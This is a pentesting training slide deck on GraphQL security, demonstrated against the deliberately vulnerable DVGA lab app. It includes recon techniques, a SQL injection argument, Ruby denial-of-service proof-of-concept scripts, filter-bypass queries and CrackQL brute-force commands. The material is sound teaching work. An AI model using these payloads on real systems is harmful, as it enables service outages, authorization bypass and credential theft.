# GraphQL for Pentesters


---

## What is GraphQL?

.svg)

---

### History

- developed by Facebook in 2012
- released in 2015
- moved to GraphQL Foundation (Linux foundation) in 2018

---

### Goal

- ✅ alternative to
  - API schema: REST, SOAP, gRPC, etc.
- ❌ doesn't replace
  - graph databases (Neo4j, ArangoDB, OrientDB)
  - query lang. (SQL, NoSQL)
- but can be used on top of other API

---

### Key info

- available for all major languages
- query result is returned in JSON
- both a query language and server-side API runtime

---

### Concepts

- ask only for what you need
- predictable results
- get many resources in a single request
- organized in terms of types and fields, not endpoints

---

### Concepts 2

- add new fields and types to a GraphQL API without impacting existing queries
- not limited by a specific storage engine
- real-time ready

---

### Example: data description

```graphql
type Project {
  name: String
  tagline: String
  contributors: [User]
}
```

---

### Example: query

```graphql
{
  project(name: "GraphQL") {
    tagline
  }
}
```

equiv.

```sql
SELECT tagline FROM project where name = "GraphQL"
```

---

### Example: answer

```json
{
  "project": {
    "tagline": "A query language for APIs"
  }
}
```

---

### Only what you need

```graphql
{
  hero {
    name
  }
}
```

```json
{
  "hero": {
      "name": "Luke Skywalker"
  }
}
```

---

```graphql
{
  hero {
    name
    height
  }
}
```

```json
{
  "hero": {
      "name": "Luke Skywalker",
      "height": 1.72
  }
}
```

---

With REST:

`GET /hero/0`

```json
{
  "name": "Luke Skywalker",
  "height": 1.72,
  "mass": 77,
  "address": "Galaxy du Centaure"
}
```

---

### Many resources in a single request

```graphql
query {
  User(id: 1337) {
    name
    posts {
      title
    }
    followers(last: 3) {
      name
    }
  }
}
```

---

```json
{
  "data": {
    "User": {
      "name": "noraj",
      "posts": [
        { "title": "From cookie flag to DA" },
        { "title": "Why you shouldn't disable IPv6" }
      ],
      "followers": [
        { "name": "Alice" },
        { "name": "Bob" }
        { "name": "Carole" }
      ]
    }
}
```

---

REST query n°1

`GET /users/1337`

```json
{
  "user": {
    "id": 1337,
    "name": "noraj",
    "address": {...},
    "birthday": "30/02/1979"
  }
}
```

---

REST query n°2

`GET /users/1337/posts`

```json
{
  "posts": [{
    "id": 5542,
    "title": "From cookie flag to DA",
    "content": "...",
    "comments": [...]
  }, {
    "id": 5543,
    "title": "Why you shouldn't disable IPv6",
    "content": "...",
    "comments": [...]
  }]
}
```

---

REST query n°3

`GET /users/1337/followers`

```json
{
  "followers": [{
    "id": 1338,
    "name": "Alice",
    "address": {...},
    "birthday": "01/05/1979"
    },{
    "id": 1339,
    "name": "Bob",
    "address": {...},
    "birthday": "15/07/1978"
    },{...}]
}
```

---

- With REST:
  - 3 query
  - too much data
- With GraphQL
  - 1 query
  - exact data

---

## Enough blah blah, let's talk security


---

Found on [OWASP VWAD][vwad]:

- [Damn Vulnerable GraphQL Application](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application)

[vwad]:https://owasp.org/www-project-vulnerable-web-applications-directory/

---

### Install DVGA

```
$ git clone https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application.git dvga && cd dvga
$ docker build -t dvga .
$ docker run -t -p 5013:5013 -e WEB_HOST=0.0.0.0 --name dvga dvga
```

```
$ cat /etc/hosts | grep .test
127.0.0.2 noraj.test
```

Verify: `curl http://noraj.test:5013/graphql`

---

Now let's put in practice Escape **Pentesting GraphQL 101** series.

1. [Part 1 - Discovery](https://escape.tech/blog/pentest101/)
2. [Part 2 - Interaction](https://escape.tech/blog/pentesting102/)
3. [Part 3 - Exploitation](https://escape.tech/blog/pentest103/)

---

### Reconnaissance / Discovery

- Understanding the limits enforced
- Determining the verbosity
- Fetching all the information possible about the architecture

---

### Before we start: Resources

- https://inventory.raw.pm/ + `graphql`
- [Awesome (list) GraphQL Security](https://github.com/Escape-Technologies/awesome-graphql-security)
- GraphQL IDE / Client:
  - [Insomnia](https://insomnia.rest/) 😍
  - [Altair](https://altairgraphql.dev/)

---

### 1st query / most basic operation

```graphql
query {
  __typename
}
```

```json
{
  "data": {
    "__typename": "Query"
  }
}
```

---

```graphql
mutation {
  __typename
}
```

```json
{
  "data": {
    "__typename": "Mutations"
  }
}
```

---

GraphQL mutation ~ `PUT` for REST


---

Looking for the execution time of the query can be helpful to detect DoS attacks

---

### Alias

```graphql
query {
  title1: __typename
  title2: __typename
  title3: __typename
  title4: __typename
  title5: __typename
}
```

Several queries in one query.

---

```json
{
  "data": {
    "title1": "Query",
    "title2": "Query",
    "title3": "Query",
    "title4": "Query",
    "title5": "Query"
  }
}
```

---

- Many alias, detect alias limit
- Very long alias name, detect character limit

---

### Detect verbosity

```graphql
query {
  noraj
}
```

---

```json
{
  "errors": [
    {
      "message": "Cannot query field \"noraj\" on type \"Query\".",
      "locations": [
        {
          "line": 2,
          "column": 3
        }
      ]
    }
  ]
}
```

---

### Introspection

With **gRPC** there can be **Reflection** enabled that allow you to retrieve the **prototype** and list services.

Eg. with [grpcurl][grpcurl]:

[grpcurl]:https://github.com/fullstorydev/grpcurl

```bash
# Server supports reflection
grpcurl localhost:8787 list
```

---

### Introspection 2

With **GraphQL** there is not such an easy thing to get the **schema** but there is something similar called **introspection**.

---

### Introspection 3

```graphql
{
  __schema {
    queryType {
      fields {
        name
      }
    }
  }
}
```

---

<!--
_header: ''
_footer: ''
-->



---

Full [introspection query](https://gist.githubusercontent.com/craigbeck/b90915d49fda19d5b2b17ead14dcd6da/raw/e50819812a7a8a95b303ac0ea1464e2679e3e4bc/introspection-query.graphql) to get all queries, mutations, fields, etc.

Or [this one](https://gist.github.com/noraj/04a4274db4f3d8610235ce5c6ede7b05) that is compatible with GraphQL Voyager.

---

<!--
_header: ''
_footer: ''
-->



---

Did you see the size of the scrollbar? Will you read that?

**No** of course, but you can **visualize** that with [GraphQL Voyager](https://ivangoncharov.github.io/graphql-voyager/)!

---

<!--
_header: ''
_footer: ''
-->



---

Ok a basic security measure is to disable introspection, so how to get schema when it is disabled?

---

We'll abuse of **error suggestions**: `did you mean`.

---

```graphql
query {
  past
}
```

```json
{
  "errors": [
    {
      "message": "Cannot query field \"past\" on type \"Query\". Did 
        you mean \"paste\" or \"pastes\"?",
      "locations": [
        {
          "line": 3,
          "column": 2
        }
      ]
    }
  ]
}
```

---

We can automate this with [Clairvoyance](https://github.com/nikitastupin/clairvoyance).

---

```bash
clairvoyance -o /tmp/dvga-schema.json http://noraj.test:5013/graphql \
# -w /usr/lib/python3.10/site-packages/clairvoyance/wordlist.txt

# /usr/share/seclists/Miscellaneous/lang-english.txt is too heavy,
# ~350k entries while default clairvoyance WL is ~10k

# english-words is ~5k entries
sudo -E wordlistctl fetch -d english-words
clairvoyance -o /tmp/dvga-schema.json http://noraj.test:5013/graphql \
 -w /usr/share/wordlists/misc/english-words.10.txt

# /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt
# is ~38k and full of garbage

# else build a custom wordlist
```

---

### Finding paths

[graphql-path-enum](https://gitlab.com/dee-see/graphql-path-enum) lists the different ways of reaching a given type in a GraphQL schema.

```
$ graphql-path-enum -i /tmp/introspection-response.json -t OwnerObject
Found 3 ways to reach the "OwnerObject" node:
- Query (pastes) -> PasteObject (owner) -> OwnerObject
- Query (paste) -> PasteObject (owner) -> OwnerObject
- Query (readAndBurn) -> PasteObject (owner) -> OwnerObject
```

---

### Fingerprinting

Often the GraphQL endpoint will be `/graphql` or `/v1/graphql`. It's generally not hard to find but else you can try detected the endpoint with [graphw00f](https://github.com/dolevf/graphw00f).

```
$ graphw00f -d -t http://noraj.test:5013
[*] Checking http://noraj.test:5013/
[*] Checking http://noraj.test:5013/graphql
[!] Found GraphQL at http://noraj.test:5013/graphql
```

---

Identify GraphQL engine.

```
$ graphw00f -f -t http://noraj.test:5013/graphql
[*] Checking if GraphQL is available at http://noraj.test:5013/graphql...
[!] Found GraphQL.
[*] Attempting to fingerprint...
[*] Discovered GraphQL Engine: (Graphene)
[!] Attack Surface Matrix: https://github.com/nicholasaleks/graphql-threat-matrix/blob/master/implementations/graphene.md
[!] Technologies: Python
[!] Homepage: https://graphene-python.org
[*] Completed.
```

---


---

## Vulnerabilities


---

### Multipath Evaluation

Blocking access to character object?

---




---

Five locations have to be blocked:

- `character` query
- `characters` query
- `results` field of the `characters` object
- `resident` field of the `Location` object
- `characters` field of the `Episode` object

---


---

It's prone to error. If you forget one place...

For example, for a website, you are not authorized to view other users info (`client` object) but you can access the `client` filed of the `comments` object.

It's allow authorization bypass.

---

## SQL injection

GraphQL API often fetch data from a DB.

Where to inject in order to detect a SQLi?

---

The only injectable inputs are _Arguments_.

```graphql
query {
  user(name: "' or 1=1 --") {
    id
      email
  }
}
```

---

### Denial of Service - Batch Query Attack (JSON array)

1. Find a query that take a long time to execute
2. Batch it!

---

GraphQL query:

```graphql
{
  systemUpdate
}
```

HTTP request:

```http
POST /graphql HTTP/1.1
...
Content-Type: application/json

{"query":"{\n\tsystemUpdate\n}"}
```

---

GraphQL query:

Most GraphQL client don't support batch query, they often have a mode to select one or another but won't send both on the HTTP JSON. So we'll have to craft the HTTP request ourselves.

---

Ruby PoC for batch querying:

```ruby
require 'httpx'

data = Array.new(3) {
  { 'query' => 'query { systemUpdate }'}
}

HTTPX
  .plugin(:proxy)
  .with_proxy(uri: 'http://127.0.0.1:8080')
  .with(timeout: { operation_timeout: 120 })
  .post('http://noraj.test:5013/graphql', json: data)
```

---

- query 3 times
- send over the proxy for Burp logging
- extend timeout (default 60sec) because `systemUpdate` takes ~32 sec and we are querying it 3 times so it will take ~ 90 sec

---

HTTP request body:

```json
[
  {
    "query": "query { systemUpdate }"
  },
  {
    "query": "query { systemUpdate }"
  },
  {
    "query": "query { systemUpdate }"
  }
]
```

---

### Denial of Service - Deep recursion query attack

Possible when there is a circular reference

---

<!--
_header: ''
_footer: ''
-->


---

<!--
_header: ''
_footer: ''
-->



---

Ruby PoC for deep recursion:

```ruby
require 'httpx'

nesting_level = 10
recursion_pattern = 'pastes{owner{'
fields = 'name'
payload = recursion_pattern * nesting_level + fields + '}}' * nesting_level

data = { 'query' => "query{#{payload}}"}

HTTPX
  .plugin(:proxy)
  .with_proxy(uri: 'http://127.0.0.1:8080')
  .with(timeout: { operation_timeout: 120 })
  .post('http://noraj.test:5013/graphql', json: data)
```

---

<!--
_header: ''
_footer: ''
-->



---

### Denial of Service - Field duplication attack

```graphql
query {
  pastes {
    ipAddr # 1
    ipAddr # 2
    # ...
    ipAddr # 1000
  }
}
```

---

Ruby PoC for field duplication:

```ruby
require 'httpx'

copy_level = 6000
copy_pattern = 'ipAddr,'
payload = copy_pattern * copy_level

data = { 'query' => "query{pastes{#{payload}}}"}

HTTPX
  .plugin(:proxy)
  .with_proxy(uri: 'http://127.0.0.1:8080')
  .with(timeout: { operation_timeout: 120 })
  .post('http://noraj.test:5013/graphql', json: data)
```

---

<!--
_header: ''
_footer: ''
-->



---

### Denial of Service - Query aliases duplication attack

Alternative if batching is disabled.

---

```graphql
query {
  q1: systemUpdate
  q2: systemUpdate
  q3: systemUpdate
}
```

---

Ruby PoC for query aliases duplication:

```ruby
require 'httpx'

copy_level = 3
query = 'systemUpdate'
payload = (1..copy_level).map { |i| "q#{i}:#{query}" }.join(',')
data = { 'query' => "query{#{payload}}"}

HTTPX
  .plugin(:proxy)
  .with_proxy(uri: 'http://127.0.0.1:8080')
  .with(timeout: { operation_timeout: 120 })
  .post('http://noraj.test:5013/graphql', json: data)
```

---

### Denial of Service - Circular fragments attack

The Spread operator (`...`) allows to reuse fragments. It's like a mixin.

---

```graphql
fragment smallPaste on PasteObject {
  id
  title
  content
}
query allPastes {
  pastes {
    ...smallPaste
  }
}
query allPastesWithStatus {
  pastes {
    public
    ...smallPaste
  }
}
```

---

But what if we create a loop?


---

```graphql
fragment noraj on PasteObject {
  title
  content
  ...jaron
}
fragment jaron on PasteObject {
  content
  title
  ...noraj
}
query {
  ...noraj
}
```

PS: the query is not even needed

---

Result:


---

### Query whitelist/blacklist bypass

Direct query:

```graphql
query {
  systemHealth
}
```

---

```json
{
  "errors": [
    {
      "message": "400 Bad Request: Query is on the Deny List.",
      "locations": [
        {
          "line": 2,
          "column": 2
        }
      ],
      "path": [
        "systemHealth"
      ]
    }
  ],
  "data": {
    "systemHealth": null
  }
}
```

---

Query with custom operation name:

```graphql
query random {
  systemHealth
}
```

---

```json
{
  "errors": [
    {
      "message": "400 Bad Request: Operation Name \"random\" is not allowed.",
      "locations": [
        {
          "line": 2,
          "column": 2
        }
      ],
      "path": [
        "systemHealth"
      ]
    }
  ],
  "data": {
    "systemHealth": null
  }
}
```

Bypass blacklist but not whitelist.

---

Query with allowed operation name:

```graphql
query getPastes {
  systemHealth
}
```

---

```json
{
  "data": {
    "systemHealth": "System Load: 2.54\n"
  }
}
```

Bypass both (poorly written) blacklist and whitelist.

---

```graphql
query {
  q1:systemHealth
}
```

Aliases too could bypass filters.

---

### CSRF - POST-based

Content-Type: `application/json` ➡️ `application/x-www-form-urlencoded`

Mostly useful for mutations

---

### CSRF - GET-based

- misconfigured GraphiQL
- mutations in GET param

---

Many other vulnerabilities that are not necessarily specific to GraphQL.

---

## More tools


---

[graphql-cop](https://github.com/dolevf/graphql-cop) - GraphQL vulnerability scanner

---



---

[CrackQL](https://github.com/nicholasaleks/CrackQL) - GraphQL password brute-force and fuzzing utility

- Defense evasion: evades traditional API HTTP rate-limit and query cost analysis defenses
- Generic fuzzing (intruder like but benefits from defense evasion)

---

```graphql
mutation {
  login(username: {{username|str}}, password: {{password|str}}) {
    accessToken
  }
}
```

```bash
crackql -t http://noraj.test:5013/graphql -q login.graphql -i usernames_and_passwords.csv
```

---

[GraphQLmap](https://github.com/swisskyrepo/GraphQLmap) - scripting engine to interact with a graphql endpoint

- field fuzzing
- NoSQLi / SQLi

---

[GraphQL Threat Matrix](https://github.com/nicholasaleks/graphql-threat-matrix) - resource that list the differences in how GraphQL implementations interpret and conform to the GraphQL specification

---

<!--
_header: ''
_footer: ''
-->



---

[InQL](https://github.com/doyensec/inql) - (CLI tool and) Burp extension for GraphQL

---

<!--
_header: ''
_footer: ''
-->



---

<!--
_header: ''
_footer: ''
-->



---

<!--
_header: ''
_footer: ''
-->

